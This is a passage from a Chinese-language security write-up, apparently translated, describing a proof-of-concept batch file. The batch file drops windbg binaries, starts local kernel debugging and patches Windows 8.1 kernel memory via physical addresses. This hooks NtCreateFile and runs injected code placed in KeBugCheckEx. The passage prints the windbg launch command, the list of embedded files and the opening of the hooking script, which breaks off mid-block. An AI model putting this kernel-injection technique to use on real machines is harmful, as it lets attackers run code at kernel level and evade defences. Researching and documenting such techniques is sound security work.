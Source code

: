 您可以看到脚本是如何启用本地内核调试的，它会安装一个在重新启动后将要执行的任务，并重新启动计算机。



**4）使用windbg修补内核内存，以内核模式注入和执行我们的代码**

通过前面部分中介绍的方法，我们已经将所有需要的文件转储到了磁盘，并且已经可以让UAC提示用户获取管理员权限，同时我们也启用了内核本地调试。接下来的最后一步，是修补Windows内核内存，将我们的代码放到内核中，并在内核中挂接一些函数来执行我们的代码。

为此，我们将使用-kl选项（内核本地调试）和-c选项启动windbg，以启动我们的windbg脚本： 

```
start /min windbg -y "SRV*c:symbols*http://msdl.microsoft.com/download/symbols" -c"$$&gt;&lt;jmpkernel_hookcreatefile.wdbg;q" -kl
```

而最重要的部分是windbg脚本**jmpkernel_hookcreatefile.wdbg**。您可以在下一段看到该脚本中的相关代码。

在这个脚本中，一些地址是我的目标测试机器，这里使用了硬编码方式。目标机器是Windows 8.1 Pro N x64，ntoskrnl版本为6.3.9600.17668。当然，要想适应其他机器，或编写没有硬编码地址的通用脚本也并非难事。无论如何，由于这只是一个PoC，所以我用一些硬编码的地址来完成测试，以防止代码变得过于复杂。

对于这个脚本，重点在于，通过windbg本地调试器修补内核内存的关键是使用物理地址来写内存。本地内核调试器不运行我们修改一些内核内存地址（例如，如果我们要修补NtCreateFile函数，它是不允许的）。然而，我们可以将目标虚拟地址转换为物理地址，并将我们的修改写入物理地址。

将VA转换为物理地址的命令是!vtop。写入物理地址的命令是!eb。

此外，我们还得从批处理文件中转储windbg。当然，嵌入完整的windbg安装太过于疯狂。但是，我们这里只需要用到几个命令而已，所以我们只需要嵌入一个windbg二进制文件的子集就行了： 



```
dbgeng.dll
dbghelp.dll
kdexts.dll
kext.dll
symsrv.dll
symsrv.yes
windbg.exe
```

我们将这些文件嵌入到批处理文件中，然后将它们一起转储到脚本文件中，最后使用脚本执行windbg。 执行脚本后，nt!NtCreateFile函数将被挂接。 我们已经使用nt！KeBugCheckEx的内存空间保存了自己的代码，为了调用我们存放在nt!KeBugCheckEx中的代码，可以挂接一个针对nt!NtCreateFile的调用。通过我们存放在nt!KeBugCheckEx中的代码，可以跳转到调用的原始目的地，所以函数被挂接，以便执行我们的代码，但系统不会出现任何问题。 

```
Jmpkernel_hookcreatefile.wdbg:
.load kext.dll
.load kdexts.dll
.block
`{`
 $$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$
 $$ Get the Physical Adress of NtCreateFile
 $$
 $$ get the address of nt!NtCreateFile 
 ? nt!NtCreateFile
 $$ @$exp contains the address of NtCreateFile, so we create a alias for it
 aS /x va @$exp
 
 .block
 `{`
   $$ get the physical address of NtCreateFile
   !vtop 0 va
   $$ parse the results of vtop
   r @$t1 = 0
   .foreach (tok `{` !vtop 0 va `}`)
   `{` 
     .catch 
     `{` 
       .printf "tok"
       .printf "n"
       .if(@$t1==1)
       `{` 
```